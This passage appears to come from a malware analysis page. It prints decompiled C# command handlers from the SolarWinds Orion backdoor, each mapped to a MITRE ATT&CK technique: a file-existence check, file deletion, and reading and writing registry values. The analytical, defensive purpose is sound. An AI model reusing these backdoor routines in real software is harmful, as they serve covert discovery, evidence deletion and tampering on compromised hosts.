 ```csharp
		catch (Exception)
		{
			if (i + 1 >= 3)
			{
				throw;
			}
		}
		OrionImprovementBusinessLayer.DelayMs(0.0, 0.0);
	}
}

```
<br /><br />
Check if file exists - T1083 File and Directory Discovery

```csharp
public static void FileExists(string[] args, out string result)
{
	string path = Environment.ExpandEnvironmentVariables(args[0]);
	result = File.Exists(path).ToString();
}

```
<br /><br />
Delete file by path - T1070.004 File Deletion

```csharp
public static void DeleteFile(string[] args)
{
	File.Delete(Environment.ExpandEnvironmentVariables(args[0]));
}
```
<br /><br />
Get a registry value - T1012 Query Registry

```csharp
public static int ReadRegistryValue(string[] args, out string result)
{
	result = OrionImprovementBusinessLayer.RegistryHelper.GetValue(args[0], args[1], null);
	if (result != null)
	{
		return 0;
	}
	return 1;
}
```
<br /><br />
Modfiy a registry value - T1112 Modify Registry

```csharp
public static int SetRegistryValue(string[] args)
{
	RegistryValueKind valueKind = (RegistryValueKind)Enum.Parse(typeof(RegistryValueKind), args[2]);
	string valueData = (args.Length > 3) ? Encoding.UTF8.GetString(Convert.FromBase64String(args[3])) : "";
	if (!OrionImprovementBusinessLayer.RegistryHelper.SetValue(args[0], args[1], valueData, valueKind))
	{
		return 1;
	}
	return 0;
}
```
<br /><br />
Delete a registry value - T1112 Modify Registry
